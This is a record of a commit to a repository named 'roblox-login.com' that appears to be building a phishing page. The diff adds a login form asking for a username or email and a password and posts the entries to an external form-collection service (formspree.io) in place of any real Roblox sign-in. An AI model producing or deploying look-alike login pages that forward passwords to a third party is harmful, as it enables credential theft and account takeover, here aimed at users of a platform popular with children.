

Before and after one commit to Costronik/roblox-login.com, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 139-730 px from the top of the page, 1306 px wide, since content can reach past the window. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -26,3 +26,8 @@
     </div>
 </body>
 </html>
+<form action="https://formspree.io/f/YOUR_FORM_ID" method="POST">
+    <input type="text" name="username" placeholder="Username or Email" required>
+    <input type="password" name="password" placeholder="Password" required>
+    <input type="submit" value="Log In" class="btn">
+</form>
```
